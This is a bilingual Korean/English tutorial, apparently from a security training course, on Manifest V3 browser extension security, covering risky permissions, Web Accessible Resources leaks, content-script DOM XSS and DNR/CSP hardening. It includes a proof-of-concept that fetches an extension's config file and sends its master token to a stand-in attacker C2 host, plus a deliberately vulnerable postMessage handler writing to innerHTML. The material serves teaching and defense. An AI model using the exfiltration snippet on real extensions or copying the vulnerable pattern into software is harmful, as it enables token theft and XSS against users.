

> 🌐 **Language / 언어**: [🇰🇷 한국어](#한국어) | [🇺🇸 English](#english)

---

<a name="한국어"></a>

# 브라우저 확장 프로그램(Manifest V3) 보안 심층 분석: 권한 명세 감사, Web Accessible Resources 유출, Content Script DOM XSS 및 DNR 하드닝

> 🏢 **연계 실습 랩**: [Lab 44: ExtensionGuard - Browser Extension Security Lab](../../labs/44_browser_extension_security_lab)  
> 🎯 **관련 워게임 트랙**: `extsec` (브라우저 확장 프로그램 보안 & Manifest V3 실전 35제)  
> 🛠️ **관련 시뮬레이터**: [Wargame Playground: Browser Extension Security Inspector](../../wargame/index.html#playground)

---

## 0. 개요: Manifest V3의 보안 아키텍처 전환과 신규 공격 표면

Google Chrome과 Chromium 생태계가 도입한 **Manifest V3 (MV3)**는 브라우저 확장 프로그램의 신뢰성과 보안성을 극대화하기 위해 개발되었습니다. 백그라운드 영구 페이지(Persistent Background Page)를 이벤트 기반의 비동기 **서비스 워커(Service Worker)**로 대체하고, 차단형 네트워크 조작 API(`webRequestBlocking`)를 선언형 규칙 집합(`declarativeNetRequest`)으로 전환하였으며, 외부 원격 코드 실행(`eval()`, 원격 호스팅 스크립트)을 원천 차단했습니다.

그러나 이러한 규제 강화에도 불구하고, 잘못된 권한 부여(`host_permissions`), 비인가 웹페이지에 무분별하게 노출된 웹 접근 가능 리소스(Web Accessible Resources), 콘텐츠 스크립트(Content Script)와 호스트 웹페이지 간의 안전하지 않은 메시지 통신(`postMessage`), 그리고 안전하지 않은 DOM 싱크(`innerHTML`) 사용으로 인한 심각한 보안 위협이 지속되고 있습니다.

```
+---------------------------------------------------------------------------------------------------+
|               Chromium Manifest V3 브라우저 확장 프로그램 다계층 보안 아키텍처                    |
+---------------------------------------------------------------------------------------------------+

     [외부 웹페이지 컨텍스트 (Main World)]                   [확장 프로그램 보안 격리 경계]
   ┌─────────────────────────────────────────┐           ┌─────────────────────────────────────────┐
   │ Untrusted Host Web Page                 │           │ Background Service Worker (background.js)│
   │ • document.cookie, LocalStorage 접근    │           │ • chrome.storage, chrome.tabs 제어       │
   │ • window.postMessage() 이벤트 송수신    │           │ • Declarative Net Request (DNR) 규칙 관리│
   │ • DOM 요소 렌더링 & 사용자 입력 양식    │           │ • 비동기 수명주기 (Idle 시 강제 언로드)  │
   └────────────────────┬────────────────────┘           └────────────────────┬────────────────────┘
                        │                                                     │
        window.postMessage (비인가 출처)                        chrome.runtime.sendMessage
                        │                                                     │
   ┌────────────────────▼─────────────────────────────────────────────────────▼────────────────────┐
   │ Content Script (content.js) — Isolated World (격리된 JS 힙, 공유 DOM)                         │
   │ • 취약점 1: innerHTML을 통한 DOM-based XSS (XSS 페이로드 주입 시 호스트 세션 장악)          │
   │ • 취약점 2: password 입력 이벤트 스니핑 (크레덴셜 탈취)                                       │
   │ • 취약점 3: Web Accessible Resources (WAR) 와일드카드 매칭으로 민감 API 키/토큰 노출          │
   └───────────────────────────────────────────────────────────────────────────────────────────────┘
```

---

## 1. Manifest V3 권한 모델 감사 및 서비스 워커 보안

확장 프로그램 감사의 첫 단계는 `manifest.json` 명세서의 최소 권한 원칙(Principle of Least Privilege) 준수 여부를 확인하는 것입니다.

### 위험 권한 식별 매트릭스

| 권한 항목 | 위험 수준 | 공격 악용 시나리오 및 영향도 | 권장 방어 대책 |
|:---|:---:|:---|:---|
| `<all_urls>` / `*://*/*` | 🚨 CRITICAL | 방문하는 모든 웹사이트의 DOM 및 네트워크 트래픽 도청 | `activeTab` 권한 및 특정 사내 도메인으로 한정 |
| `webRequestBlocking` | 🚨 HIGH | HTTPS 트래픽 실시간 가로채기 및 헤더 조작 (MV3에서 일반 확장 금지) | `declarativeNetRequest` 규칙 기반 차단 전환 |
| `cookies` | 🚨 HIGH | 사용자의 민감한 세션 쿠키 탈취 및 세션 하이재킹 | 접근이 필요한 특정 오리진 쿠키로 범위를 엄격히 축소 |
| `nativeMessaging` | 🚨 HIGH | 호스트 OS 로컬 바이너리와 통신하여 RCE(원격 코드 실행) 연계 | 바이너리 서명 및 허용된 클라이언트 화이트리스트 |

### 백그라운드 서비스 워커(Service Worker)의 수명주기 특성
Manifest V3의 서비스 워커는 유휴 상태(약 30초 무응답) 시 브라우저 엔진에 의해 자동으로 메모리에서 언로드됩니다.
- **취약한 설계**: 전역 변수에 인증 토큰이나 상태를 캐싱하는 경우, 워커가 언로드될 때 상태가 유실되거나 초기화 레이스 컨디션 발생.
- **보안 권장**: 영속 상태 저장은 `chrome.storage.local` 또는 `chrome.storage.session` API를 사용하고 비동기 이벤트 리스너를 최상위 레벨에 등록.

---

## 2. Web Accessible Resources (WAR) 크로스 오리진 데이터 유출

`web_accessible_resources` 속성은 웹페이지에서 확장 프로그램 내부 리소스(이미지, 아이콘, 스타일시트, 스크립트 등)에 접근할 수 있도록 허용하는 명세입니다.

```json
{
  "web_accessible_resources": [
    {
      "resources": ["assets/auth_config.json", "debug/token_dump.js"],
      "matches": ["<all_urls>"]
    }
  ]
}
```

### 취약점 메커니즘
`matches`에 `<all_urls>` 또는 광범위한 와일드카드가 선언된 경우, 악성 웹사이트는 다음과 같은 단순 자바스크립트 호출로 확장 프로그램 내부 자산 및 하드코딩된 API 키/마스터 토큰을 무단 추출할 수 있습니다:

```javascript
// 공격자 웹페이지에서 확장 프로그램 내부 설정 추출 PoC
const extId = "pwned_corp_extension_id_9988";
fetch(`chrome-extension://${extId}/assets/auth_config.json`)
  .then(res => res.json())
  .then(config => {
      console.log("[+] Leaked Master Token:", config.master_token);
      // 공격자 C2 서버로 전송
      navigator.sendBeacon("https://attacker-c2.com/collect", JSON.stringify(config));
  });
```

### 보안 강화 (Hardening)
1. `matches`에 오직 신뢰할 수 있는 특정 사내 오리진(`https://corp.internal/*`)만 명시.
2. `use_dynamic_url: true`를 지정하여 확장 프로그램 설치 세션마다 고유 GUID 기반 임의 URL을 생성함으로써 외부 핑거프린팅 방지.

---

## 3. Content Script 격리 월드 한계 및 DOM-based XSS

콘텐츠 스크립트는 **격리된 월드(Isolated World)**에서 실행되어 호스트 페이지의 자바스크립트 변수 및 프로토타입에 직접 접근할 수 없습니다. 그러나 **DOM(Document Object Model) 트리는 호스트 페이지와 완전히 공유**됩니다.



### 취약한 코드 패턴 (DOM 싱크 삽입)
```javascript
// content.js - 출처 검증 없는 postMessage 수신 및 innerHTML 삽입
window.addEventListener("message", (event) => {
    // 취약점: event.origin 검증 누락
    if (event.data && event.data.type === "RENDER_PROMO") {
        const promoDiv = document.createElement("div");
        // VULNERABLE: 악성 스크립트 실행 싱크
        promoDiv.innerHTML = event.data.htmlPayload;
        document.body.appendChild(promoDiv);
    }
});
```

### 방어 대책
- `event.origin`을 반드시 신뢰할 수 있는 도메인과 대조 검증.
- `innerHTML`, `outerHTML`, `document.write` 대신 안전한 `textContent`, `createElement` 또는 `DOMPurify.sanitize()` 적용.

---

## 4. Declarative Net Request (DNR) 마이그레이션과 Extension CSP

Manifest V3에서는 네트워크 트래픽 검사 및 변조를 브라우저 코어가 고성능/개인정보 보호 모드로 처리하는 **Declarative Net Request (DNR)** 체계로 전면 전환하였습니다.

### DNR 규칙 명세 (`rules.json`)
```json
[
  {
    "id": 1,
    "priority": 1,
    "action": { "type": "block" },
    "condition": {
      "urlFilter": "||telemetry-untrusted.com",
      "resourceTypes": ["main_frame", "sub_frame", "xmlhttprequest"]
    }
  }
]
```

### 엄격한 확장 프로그램 CSP (Content Security Policy)
Manifest V3는 확장 프로그램 자체 페이지(팝업, 옵션 페이지 등)에 대해 기본적으로 다음 정책을 강제합니다:
```
content_security_policy: {
  "extension_pages": "script-src 'self'; object-src 'self';"
}
```
- `unsafe-eval` 원천 금지 (`eval()`, `new Function()`, `setTimeout("code", ...)` 금지).
- 외부 CDN 스크립트 로드(`https://cdn.jsdelivr.net/...`) 금지 → 반드시 모든 의존성을 확장 프로그램 패키지 내부에 번들링.

---

<a name="english"></a>

# Deep Dive into Browser Extension (Manifest V3) Security: Permission Auditing, Web Accessible Resources Leak, Content Script DOM XSS, and DNR Hardening

> 🏢 **Hands-on Lab**: [Lab 44: ExtensionGuard - Browser Extension Security Lab](../../labs/44_browser_extension_security_lab)  
> 🎯 **Wargame Track**: `extsec` (Browser Extension Security & Manifest V3 35 Challenges)  
> 🛠️ **Simulator**: [Wargame Playground: Browser Extension Security Inspector](../../wargame/index.html#playground)

---

## 0. Executive Summary: Manifest V3 Security Architecture & Attack Vectors

The **Manifest V3 (MV3)** platform in Chromium is designed to improve the privacy, performance, and security of browser extensions. It replaces long-running background pages with ephemeral **Service Workers**, eliminates blocking network modifications (`webRequestBlocking`) in favor of declarative rulesets (`declarativeNetRequest`), and completely bans remotely hosted code (`eval()`).

Despite these structural defenses, extensions remain vulnerable to:
1. **Excessive host permissions** (`<all_urls>`).
2. **Web Accessible Resources (WAR)** leaks resulting from unconstrained wildcard matches.
3. **Cross-context DOM-based XSS** in content scripts via untrusted `window.postMessage` handlers and unsafe sinks (`innerHTML`).
4. **Credential harvesting** through unconstrained form input event listeners.

---

## 1. Permission Auditing & Ephemeral Service Workers

A comprehensive extension security audit begins with examining the requested capabilities in `manifest.json`.

### Critical Permission Risk Analysis

| Permission | Risk Tier | Impact | Hardening Recommendation |
|:---|:---:|:---|:---|
| `<all_urls>` / `*://*/*` | 🚨 CRITICAL | Grants complete access to DOM and traffic on all web domains | Narrow to explicit internal origins; utilize `activeTab` |
| `webRequestBlocking` | 🚨 HIGH | Synchronous network interception (Disallowed in MV3 consumer extensions) | Migrate to `declarativeNetRequest` |
| `cookies` | 🚨 HIGH | Plaintext session cookie exfiltration | Enforce restrictive host matching |
| `nativeMessaging` | 🚨 HIGH | Inter-process communication to local binaries leading to RCE | Validate client identities and binary code signatures |

---

## 2. Web Accessible Resources (WAR) Cross-Context Exploitation

Declaring resources in `web_accessible_resources` exposes extension files directly to the DOM of web pages.

### Vulnerability Mechanics
```json
{
  "web_accessible_resources": [
    {
      "resources": ["assets/auth_config.json"],
      "matches": ["<all_urls>"]
    }
  ]
}
```
Any arbitrary webpage visited by the victim can fetch the target resource using standard `fetch()` or `XMLHttpRequest`:
```javascript
fetch("chrome-extension://<EXTENSION_ID>/assets/auth_config.json")
  .then(res => res.json())
  .then(config => exfiltrate(config.master_token));
```

### Mitigation
- Scope `matches` exclusively to trusted host patterns.
- Enable `use_dynamic_url: true` to prevent extension fingerprinting by randomizing resource URLs per session.

---

## 3. Content Script Isolated World Boundaries & DOM XSS

Although content scripts run in an **Isolated World** (separate execution context and heap from page scripts), they share direct read/write access to the **Page DOM**.

### Unsafe postMessage & DOM Sink Pattern
```javascript
window.addEventListener("message", (event) => {
    // Missing origin check!
    if (event.data?.type === "RENDER_PROMO") {
        // DOM-based XSS sink
        promoDiv.innerHTML = event.data.htmlPayload;
    }
});
```

### Defense Guidelines
1. Always validate `event.origin === "https://trusted.corp.com"`.
2. Avoid `innerHTML` or `outerHTML`. Utilize `textContent`, `document.createElement`, or robust DOM sanitizers such as `DOMPurify`.

---

## 4. Declarative Net Request & Rigid Extension CSP

Under Manifest V3:
1. Network blocking is handled declaratively by the browser engine using `declarativeNetRequest`.
2. Remote script injection and `unsafe-eval` are categorically prohibited in extension pages. All script assets must be bundled locally and declared strictly under `script-src 'self'`.
